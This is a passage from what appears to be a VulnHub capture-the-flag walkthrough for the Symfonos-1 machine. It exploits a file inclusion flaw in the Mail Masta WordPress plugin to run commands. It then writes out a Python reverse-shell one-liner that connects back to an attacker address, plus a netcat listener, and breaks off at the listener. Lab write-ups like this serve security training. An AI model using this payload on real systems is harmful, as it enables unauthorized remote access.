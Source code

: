 		![](images/Pasted%20image%2020220124033829.png)
	5. Check if python exists
		```
		┌──(root💀kali)-[~/vulnHub/Symfonos-1/192.168.56.123/loot/smb]
		└─# curl -s "http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=which+python" | grep python
		/usr/bin/python
		```
	6. Execute Reverse Shell
		```
		# Curl does not work 
		http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=python+-c+'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("192.168.236.4",4444));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
		```
		![](images/Pasted%20image%2020220124034857.png)
	7. Obtained www-data shell
		```
		┌──(root💀kali)-[~/vulnHub/Symfonos-1/192.168.56.123/loot/smb]
		└─# nc -nvlp 4444